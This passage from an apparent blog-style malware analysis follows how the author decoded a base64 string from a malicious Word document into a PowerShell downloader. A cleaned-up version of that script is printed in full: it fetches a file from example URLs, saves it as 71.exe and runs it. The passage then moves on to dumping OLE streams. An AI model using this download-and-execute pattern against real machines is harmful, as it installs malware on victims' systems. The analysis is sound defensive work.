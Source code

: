 ## A PowerShell payload

Not really knowing what to do next, I decided to give the `strings` command a
try and found a very large string that looked like a bas64-encoded string.
I piped this string to `base64 -d` and got some PowerShell instructions in
return. Yay!

```powershell
$XvmIXvo='t6jTbM';$PbDL43 = '71';$uj6EVuv='L8KMkkX'; [...]
```

Given that I was stuck with the VBA macro, I decided to clean the PowerShell
[payload](<https://en.wikipedia.org/wiki/Payload_(computing)>) to better
understand it. There were unused variables and weird PowerShell-allowed calls.
Below is the PowerShell script rewritten to be more readable:

```powershell
# `$env:userprofile` returns the full path of the profile directory.
$pathToExe = $env:userprofile+'\71.exe';

$webClient = New-Object Net.WebClient;

# List of URLs pointing to a program to download
$urls = [
    http://some.example.com/folder-123/,
    http://another.example.com/folder-456/,
]

foreach ($url in $urls) {
    try {
        # Try to download a program...
        $webClient.DownloadFile($url, $pathToExe);

        # if it worked, then...
        If ((Get-Item $pathToExe).length -ge 24103) {
            # run it!
            Invoke-Item $pathToExe;
            break;
        }

        # otherwise, keep trying.
    } catch {
    }
}
```

This PowerShell script is a **Downloader**: its job is to download, save and execute
a malicious program (named `71.exe` here). I still did not know how this script was
executed by the macro though, so let's find out!

## OLE dump

I searched for a tool able to dump an OLE stream from a `.doc` file
and discovered [oledump.py](https://blog.didierstevens.com/programs/oledump-py/).
Analyzing the different sections, I found interesting data that I dumped as ASCII:
